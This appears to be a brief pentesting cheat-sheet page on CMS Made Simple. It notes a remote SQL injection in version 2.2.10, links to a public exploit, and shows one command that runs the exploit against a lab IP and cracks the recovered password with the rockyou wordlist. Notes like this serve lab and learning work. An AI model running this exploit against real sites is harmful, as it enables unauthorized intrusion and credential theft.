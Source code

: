 ```yaml
---
icon: globe-pointer
description: Open source content management
---
```


# CMS Made Simple

{% embed url="https://www.cmsmadesimple.org/" %}

{% hint style="danger" %}
## <mark style="color:purple;">Vulnerabilities</mark>

### <mark style="color:orange;">`2.2.10`</mark> <mark style="color:purple;">- Remote SQLi</mark>

* <mark style="color:purple;">Download Exploit</mark> [<mark style="color:orange;">**`here`**</mark>](https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQL-Injection.html)

{% code overflow="wrap" %}
```bash
./cmsms_sqli.py -u http://10.10.10.138/writeup --crack --wordlist /usr/share/wordlists/rockyou.txt
```
{% endcode %}
{% endhint %}
